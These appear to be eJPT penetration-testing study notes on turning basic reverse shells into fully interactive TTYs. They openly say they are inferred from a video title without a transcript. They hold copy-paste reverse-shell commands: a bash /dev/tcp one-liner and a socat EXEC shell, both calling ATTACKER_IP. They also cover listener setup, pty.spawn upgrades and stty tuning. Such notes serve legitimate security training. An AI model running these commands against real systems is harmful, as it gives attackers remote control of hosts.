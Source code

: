 # Upgrading Non-Interactive Shells (eJPT) — Summary Notes

Note: The transcript wasn’t provided. The following is a careful, practical summary inferred from the video title and common eJPT techniques for upgrading dumb shells (e.g., basic netcat/web shells) into fully interactive TTYs.

## What the video covers (Introduction / big picture)
- Why initial shells (e.g., netcat reverse shells) are often non-interactive: no job control, no tab-completion, broken arrows/backspace, sudo/su won’t prompt, editors fail.
- How to “upgrade” those shells to a proper TTY that supports interactive features and tools.
- Multiple methods to stabilize shells:
  - Python pty.spawn
  - script utility
  - socat for a fully interactive TTY
  - rlwrap for line editing/history on the listener
  - stty/reset/env tuning to fix terminal behavior

## Flow (ordered)
1. Catch the reverse shell (preferably with rlwrap).
2. Identify it’s non-interactive: commands break, no tab, sudo complains.
3. Try Python TTY spawn (python3, then python).
4. Suspend shell with Ctrl+Z; fix local terminal; foreground.
5. Reset terminal and set env vars on the target (TERM, SHELL); adjust rows/columns.
6. If Python not available, try script-based TTY.
7. If you can, use socat for a robust TTY.
8. Verify: arrows, Ctrl+C, sudo/su prompts, editors.

## Tools highlighted
- nc (netcat)
- rlwrap
- python3/python (pty module)
- script (/usr/bin/script)
- socat
- stty, reset, export (environment adjustments)
- bash/sh

## Typical command walkthrough (detailed, copy-paste friendly)

Quick check (on the target shell):
```
whoami
id
uname -a
which python3 || which python || which script || which socat
tty
```

1) Listener with history and better line-editing (attacker):
```
rlwrap -cAr nc -lvnp 4444
```

2) If you need a one-liner reverse shell (target):
```
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```

3) Upgrade with Python pty (target, after you have a shell):
- Prefer python3:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- Fallback to python:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

4) Fix local terminal and foreground the session (attacker):
- Press: Ctrl+Z to background the shell
- Then run:
```
stty raw -echo; fg
```
- When it returns, if needed, type:
```
reset
```

5) Set terminal environment and size (target):
```
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 50 columns 120
```
- Tip: get your terminal size on attacker and mirror it:
  - On attacker: `stty size` (e.g., 50 120)
  - On target: `stty rows 50 columns 120`

6) If Python is unavailable: use script (target):
- Try:
```
script -q /dev/null -c bash
```
- If that fails, alternative forms:
```
script -qc bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
SHELL=/bin/bash script -q /dev/null
```

7) Fully interactive TTY via socat (best quality if available):

- Attacker (in a terminal with a TTY):
```
socat -d -d TCP-LISTEN:4444,reuseaddr,fork FILE:`tty`,raw,echo=0
```

- Target (from current shell):
```
socat TCP:ATTACKER_IP:4444 EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane
```

8) Validate upgrade (target):
```
tty
echo $TERM
stty -a
sudo -l 2>/dev/null || echo "sudo may still require a proper TTY"
```
- Test arrows, Ctrl+C, tab-completion, editors (vi/nano).

## Practical tips
- rlwrap improves netcat listeners significantly for quick wins.
- Use python3 first; many modern systems lack python2 by default.
- If Ctrl+C kills your session, try after doing stty raw -echo and reset. You can also restore sane behavior with `stty sane`.
- If backspace/arrows are broken, re-run `stty raw -echo; fg` and then `reset`, set `TERM`, and `stty rows/columns`.
- sudo/su often need a TTY; the pty.spawn or script method generally fixes “no tty present” errors.
- If socat isn’t installed on target, consider uploading a static socat binary for the target architecture (if allowed).
- When asked by reset for terminal type, xterm or xterm-256color is usually safe.

## Minimal cheat sheet (one-screen flow)
```
# Attacker
rlwrap -cAr nc -lvnp 4444

# Target (already have a basic reverse shell)
python3 -c 'import pty; pty.spawn("/bin/bash")' \
  || python -c 'import pty; pty.spawn("/bin/bash")' \
  || script -q /dev/null -c bash

# Attacker
^Z
stty raw -echo; fg
# then on target:
reset
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 50 columns 120   # adjust to your terminal

# Socat (optional, best quality)
# Attacker:
socat -d -d TCP-LISTEN:4444,reuseaddr,fork FILE:`tty`,raw,echo=0
# Target:
socat TCP:ATTACKER_IP:4444 EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane
```

## Summary
This module shows how to turn an unstable, non-interactive reverse shell into a stable, fully interactive TTY suitable for privilege escalation and interactive tooling. Start with a better listener (rlwrap), upgrade via Python pty.spawn or script, tune terminal settings (stty/reset/TERM), and use socat for the most reliable experience when available. These steps resolve broken line editing, enable job control, and allow sudo/su and editors to work correctly during engagements.